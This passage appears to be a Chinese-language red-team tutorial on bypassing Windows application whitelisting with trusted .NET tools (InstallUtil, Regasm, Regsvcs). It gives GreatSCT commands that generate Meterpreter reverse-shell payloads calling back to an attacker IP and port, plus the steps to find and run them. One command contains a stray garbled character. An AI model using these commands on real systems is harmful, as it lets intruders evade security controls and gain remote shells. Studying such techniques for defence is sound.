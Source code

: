 也可以在直接生成 payload，不需要交互式：

```
python3 GreatSCT.py --ip 192.168.75.131 --port 4444 -t Bypass -p
installutil/meterpreter/rev_https.py
```

是不是很 msf？

**2.3 白名单 Regasm.exe**

Regasm 为程序集注册工具，读取程序集中的元数据，并将所需的项添加到注册表中，从而使 COM 客户端可以透明地创建. NET Framework 类。一旦注册了一个类，任何 COM 客户端都可以像使用 COM 类一样使用它。安装程序集后，该类仅注册一次。程序集中的类的实例只有在实际注册后才能从 COM 创建。RegAsm.exe 是 Microsoft Corporation 开发的合法文件进程，与 Microsoft.NET Assembly Registration Utility 相关联。

语法：

```
regasm assemblyFile [options]
```

详情请参考 https://docs.microsoft.com/en-us/dotnet/framework/tools/regasm-exe-assembly-registration-tool

**第一步找到 Regasm.exe**

默认情况下 Regasm.exe 是没有在系统环境变量中，所以需要我们先找到，默认情况下 Regasm.exe 是在./net 环境下，但是因为各个系统安装的. net 版本不同，所以只能到 C:\Windows\Microsoft.NET \ 下执行查找文件命令

```
dir /S Regasm.exe
```

**第二步生成 dll 文件**

这个你想用 msf，cs，什么的生成都可以，我这里就使用 GreatSCT 生成了

```
python3 GreatSCT.py --ip 192.168.75.131 --port 4444 -t Bypass -p regasm/meterpreter/rev_tcp.pyß
```

然后执行：  

```
regasm.exe /U payload.dll
```

**2.4 白名单 Regsvcs.exe**

Regsvcs 为. NET 服务安装工具，主要提供三类服务：

加载并注册程序集

生成、注册类型库并将其安装到指定的 COM+ 1.0 应用程序中

配置以编程方式添加到类的服务 

和前面一样在. net 目录下

生成 dll

```
python3 GreatSCT.py --ip 192.168.75.131 --port 4444 -t Bypass -p
regsvcs/meterpreter/rev_tcp.py
```
